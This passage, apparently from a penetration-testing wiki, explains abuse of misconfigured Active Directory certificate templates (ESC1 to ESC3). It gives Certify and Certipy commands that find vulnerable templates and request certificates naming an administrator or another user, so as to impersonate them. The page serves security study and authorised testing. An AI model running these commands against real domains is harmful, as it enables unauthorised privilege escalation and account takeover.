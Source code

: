 === Windows

From Windows systems, the [Certify](https://github.com/GhostPack/Certify) (C#) tool can be used.

```powershell
# Find vulnerable/abusable certificate templates using default low-privileged group
Certify.exe find /vulnerable

# Find vulnerable/abusable certificate templates using all groups the current user context is a part of:
Certify.exe find /vulnerable /currentuser
```

Once a vulnerable template is found, a request shall be made to obtain a certificate, with another high-priv user set as SAN (`subjectAltName`).

```powershell
Certify.exe request /ca:'domain\ca' /template:"Vulnerable template" /altname:"admin"
```

The certificate can then be used with [Pass-the-Certificate](../kerberos/pass-the-certificate.md) to obtain a TGT and authenticate.

:::


### (ESC2) Any purpose EKU 

When a certificate template specifies the Any Purpose EKU, or no EKU at all, the certificate can be used for anything. ESC2 can't be abused like ESC1 if the requester can't specify a SAN, however, it can be abused like ESC3 to use the certificate as requirement to request another one on behalf of any user.

### (ESC3) Certificate Agent EKU 

When a certificate template specifies the Certificate Request Agent EKU, it is possible to use the issued certificate from this template to request another certificate on behalf of any user.

::: tabs

=== UNIX-like

From UNIX-like systems, [Certipy](https://github.com/ly4k/Certipy) (Python) can be used to enumerate for, and conduct, the ESC3 scenario. It is possible to output the result in an archive that can be uploaded in Bloodhound.

```bash
certipy find -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -vulnerable
```

Once a vulnerable template is found ([how to enumerate](./#attack-paths)), a request shall be made to obtain a certificate specifying the Certificate Request Agent EKU.

```bash
certipy req -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -target "$ADCS_HOST" -ca 'ca_name' -template 'vulnerable template'
```

Then, the issued certificate can be used to request another certificate permitting `Client Authentication` on behalf of another user.
